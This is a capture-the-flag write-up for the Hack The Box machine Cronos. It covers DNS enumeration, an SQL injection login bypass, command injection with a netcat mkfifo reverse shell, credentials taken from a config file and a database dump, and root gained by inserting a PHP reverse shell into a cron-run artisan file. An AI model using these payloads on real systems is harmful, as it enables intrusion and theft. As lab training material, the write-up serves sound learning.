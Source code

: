 # Cronos

This time nmap reports that 22, 53, 80 ports are open which i consider `53/tcp ISC BIND 9.10` is worth looking

[Cronos Writeup](https://0xdf.gitlab.io/2020/04/14/htb-cronos.html)
# Path Traversal Apache http | CVE-2021-41773


[Apache-Traversal Exploit](https://github.com/azazelm3dj3d/apache-traversal.git)

We tried but the server response says bad request so we move on.

python exploit.py --ip 10.10.10.13 --port 80 --path "/etc/shadow"DNS enumeration 


*Nothing interesting we move on*

# DNS 50/TCP

Using *nslookup* to search deeper on the project

```bash

nslookup

server 10.10.10.13

10.10.10.13

# We find ns1.cronos.htb so lets give it a closer look trough it


sudo nano /etc/hosts

10.10.10.13 ns1.cronos.htb
```

## Digging in to subdomains

Lets dig on the url
```bash
dig axfr cronos.htb @10.10.10.13

# Or we can use gobuster

sudo gobuster dns -d cronos.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

We find a login page at `admin.cronos.htb` lets try our old friend SQL Injection

```sql
' or 1=1; -- 
``` 

We find a ping machine lets try it out!

We try our ip `10.10.16.3` and it works! but i find something interesting about the output, it seems familiar to our *bash* response, so lets try something

```bash
192.168.0.1; whoami
```

We receive **www-data** so we know what we can do here, our bad boy is ready for this.

```bash
nc -lvp 4444

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.16.3 4444 >/tmp/f

10.10.16.3; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.16.3 4444 >/tmp/f
# We got it :D
```

After we find the user flag we go to our second mission, find the root flag with privilege scalation.

On `/var/www/admin` we find something interesting

```bash
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
# Lets try this password

mysql -u admin -p
kEjdbRigfBHUREiNSDs

use admin;

select * from users;

# We find our user admin:4f5fffa7b2340178a716e3832451e058
# Lets try it on our login page

python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

```

# Linpeas

Linpeas reports that the file `/var/www/laravel/artisan` so we poison it.

```bash
www-data@cronos:/dev/shm$ bash linpeas.sh                                                                 ...[snip]...
[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-jobs
-rw-r--r-- 1 root root  797 Apr  9  2017 /etc/crontab 
...[snip]...
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
...[snip]...
```
* Script
```bash
<?php

$sock=fsockopen("10.10.14.24", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
/*
|--------------------------------------------------------------------------
| Register The Auto Loader
|--------------------------------------------------------------------------
```

> You can ./artisan to test if the script works

After that we wait for the cron task to run it to get root access since its root who is running it.